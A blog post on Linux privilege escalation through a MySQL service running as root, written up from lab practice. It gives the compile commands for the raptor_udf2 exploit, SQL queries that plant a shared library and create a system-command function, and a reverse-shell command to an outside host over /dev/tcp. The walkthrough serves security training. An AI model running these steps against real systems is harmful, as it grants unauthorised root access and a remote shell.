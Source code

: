 ```yaml
---
title: Service Exploits - Mysql
author: Sujit Suryawanshi
date: 2020-11-20 15:10:00 +0800
categories: [Privilege Escalation, Linux]
tags: [privilege-escalation]
---
```


![Desktop View]({{ "/assets/img/privilege-escalation/main.png" | relative_url }})

---

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Hey all, Hope everyone doing fine. A week ago me and my colleague started doing some practice and some R&D on different techniques of Privilege Escalation. So in this blog series, I'm gonna explain some privilege escalation techniques that I did in HackTheBox, TryHackMe and other platforms.

Privilege Escalation is important to increase your impact on target system as you will have more privileges to do more stuff and to compromise other machines or systems in that network. Basically when you get Shell or Remote Code Execution on any system, You'll get shell as that service which you have exploited. For example, If you exploit LFI with PHP Log Poisoning or SQLi then you'll get shell as either www-data or postgres. (in most cases but it depends on how application is configured)
So in this case you'll need to escalate your privileges to gain more access to system in case if you want to compromise other systems in network or install kernel/os level backdoors etc.

Let's start then...

**This blog is meant for educational purposes only.**

---

<strong><span style="color:#ff5555">Enumeration</span></strong>

---

The first Privilege Escalation method in this series is **Service Exploits** in which we are going to exploit services running as root but have access to normal user.

In our case the service mysql is running as root. We checked this using below command.

```
ps aux | grep root | grep mysql
```

![Desktop View]({{ "/assets/img/privilege-escalation/service-exploits-1.png" | relative_url }})

In above command, We are looking at running processes with ps command and doing grep on root so that we will get processes which are running as root and then we doing grep again as mysql to see if mysql is running with root user or not.

If mysql is running without password or if you get mysql password in any files stored on server like db.php, dbconnection.php then you can use this Privilege Escalation technique to get root.

Let's exploit this flaw and get root.

---

<strong><span style="color:#ff5555">Exploitation</span></strong>

---

For exploitation, We are going to use this exploit which is available on [ExploitDB](https://www.exploit-db.com/exploits/1518).

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

![Desktop View]({{ "/assets/img/privilege-escalation/service-exploits-2.png" | relative_url }})

In above screenshot, We compiled the exploit with gcc and created shared object file, Then we logged in mysql as root user and ran below queries.

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Here, On the first line we are changing our database as mysql. Then creating a new table and inserting our shared object file that we are created with gcc.
In the next query we have dumped all data into file by giving absolute path and then we created a function as do_system to run system commands.

After this process, We are going to use do_system function to get another reverse shell on different terminal.

```
select do_system('sh>&/dev/tcp/10.9.65.255/1337 0>&1');
```

![Desktop View]({{ "/assets/img/privilege-escalation/service-exploits-3.png" | relative_url }})

As you can see in above screenshot, We started listening for incoming connections on port 1337 using netcat on another terminal and used **/dev/tcp** to get reverse shell as root.

**Thanks for reading this writeup and all suggestions are welcome.**
